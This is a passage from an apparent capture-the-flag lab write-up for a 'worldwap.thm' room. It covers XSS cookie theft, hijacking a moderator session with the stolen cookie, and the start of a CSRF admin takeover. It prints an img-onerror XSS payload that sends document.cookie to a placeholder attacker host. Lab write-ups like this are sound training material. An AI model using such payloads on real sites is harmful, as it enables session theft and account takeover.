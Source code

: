 ![image](https://github.com/user-attachments/assets/74c4b498-cdab-47ff-8ede-e759a0ebfb09)

And I got the cookie.

Another example with img tag:

![image](https://github.com/user-attachments/assets/aa211feb-af4b-4c10-a438-424f88189a16)

Added the payload to the name input:

"<img src=x onerror=”window.location=’http://ATTACKER_IP:PORT/?’+document.cookie;” />"

![image](https://github.com/user-attachments/assets/e81a591c-e78e-44f1-b1e4-7114f54d75a7)

![image](https://github.com/user-attachments/assets/4afbabab-c842-4301-b5f2-9317136a9b78)

Again, I got the result.

On this page, username and password inputs weren’t worked for me because of input size limitations.

After getting the cookie, I went to the login.worldwap.thm page, because of the message on the register page.

![image](https://github.com/user-attachments/assets/785f820d-3ddf-469c-842a-3f4320569efb)

After swapping the cookie, I refreshed the page.

![image](https://github.com/user-attachments/assets/8f44e1bd-b6c3-4763-85dd-d771be079187)

And here was the moderator profile, also I got the answer of the room’s first question.

◈ GETTING ADMIN BOT'S COOKIE

After getting access to the moderator account, I surfed between the tabs to find out a way to log in as an admin.

Actually, it has 2 ways:

3.1. Changing admin’s password via CSRF

![image](https://github.com/user-attachments/assets/a41de752-5d67-406a-a2c8-185eba4d7c23)

On the chat page, I found a vulnerable Stored XSS input.

![image](https://github.com/user-attachments/assets/8f2d18fd-f565-4efe-8590-645f2a0d3fae)

Again, I thought it was possible to get the admin’s token, but it didn’t work for me.

![image](https://github.com/user-attachments/assets/fd2f90c5-9145-4459-88c2-c19b282e0830)

![image](https://github.com/user-attachments/assets/998bb831-f422-40db-8df5-9405a33c6039)

Again, I checked the pages and found changepassword feature.

![image](https://github.com/user-attachments/assets/e19ce7ae-440e-4260-a2b5-f824ee685a93)
